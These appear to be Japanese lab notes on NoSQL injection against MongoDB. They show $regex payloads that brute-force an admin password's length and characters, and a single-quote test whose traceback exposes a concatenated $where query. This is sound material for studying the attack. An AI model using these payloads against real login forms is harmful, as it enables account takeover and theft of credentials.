 ## パスワードの抽出
- ユーザー名を全て洗い出せたので、全てのアカウントにアクセスできる状態
- また、パスワードを知ることは、パスワードを使い回していることがあるので、調べることは重要
- `$regex` 演算子を悪用し、サーバーに一連の質問を投げかけることで、ハングマンゲームのような方法でパスワードを復元できる

adminのパスワードの長さを推測してみる

このペイロードを使用できる
- データベースにユーザー名が「admin」で、パスワードが正規表現に一致するユーザーが存在するかどうかを問い合わせている
	- `^.{7}$` : 任意の文字で7文字を表している
```
user=admin&pass[$regex]=^.{7}$
```
しかし、サーバーがエラーを返すので、adminのパスワードは7文字で無いことがわかる
何回か、パスワードの正規表現を変更して試行錯誤することで、adminのパスワードの文字数がわかる

パスワードの文字数がわかったら、以下のペイロードを変更する
- `^c....$` : cから始まる4文字を表している
```
user=admin&pass[$regex]=^c....$
```

これをおんなじ手順で繰り返すことで、パスワードを判明させる
繰り返すときは、ResponseのLocationを見る

正解の時
![](https://i.imgur.com/K5Oh5T6.png)

誤っている時
![](https://i.imgur.com/YuFXPUF.png)


# 構文インジェクション
## 検出
- 一般的なSQLインジェクションと同様に、`'`(シングルクオート)を注入することで、インジェクションのテストをする

以下のようなエラーが表示されるとき、構文的なインジェクションの存在がわかる
```sh
syntax@10.10.102.74's password: 
Please provide the username to receive their email:admin'
Traceback (most recent call last):
  File "/home/syntax/script.py", line 17, in <module>
    for x in mycol.find({"$where": "this.username == '" + username + "'"}):
  File "/usr/local/lib/python3.6/dist-packages/pymongo/cursor.py", line 1248, in next
    if len(self.__data) or self._refresh():
  File "/usr/local/lib/python3.6/dist-packages/pymongo/cursor.py", line 1165, in _refresh
    self.__send_message(q)
  File "/usr/local/lib/python3.6/dist-packages/pymongo/cursor.py", line 1053, in __send_message
    operation, self._unpack_response, address=self.__address
  File "/usr/local/lib/python3.6/dist-packages/pymongo/mongo_client.py", line 1272, in _run_operation
    retryable=isinstance(operation, message._Query),
  File "/usr/local/lib/python3.6/dist-packages/pymongo/mongo_client.py", line 1371, in _retryable_read
    return func(session, server, sock_info, read_pref)
  File "/usr/local/lib/python3.6/dist-packages/pymongo/mongo_client.py", line 1264, in _cmd
    sock_info, operation, read_preference, self._event_listeners, unpack_res
  File "/usr/local/lib/python3.6/dist-packages/pymongo/server.py", line 134, in run_operation
    _check_command_response(first, sock_info.max_wire_version)
  File "/usr/local/lib/python3.6/dist-packages/pymongo/helpers.py", line 180, in _check_command_response
    raise OperationFailure(errmsg, code, response, max_wire_version)
pymongo.errors.OperationFailure: Failed to call method, full error: {'ok': 0.0, 'errmsg': 'Failed to call method', 'code': 1, 'codeName': 'InternalError'}
```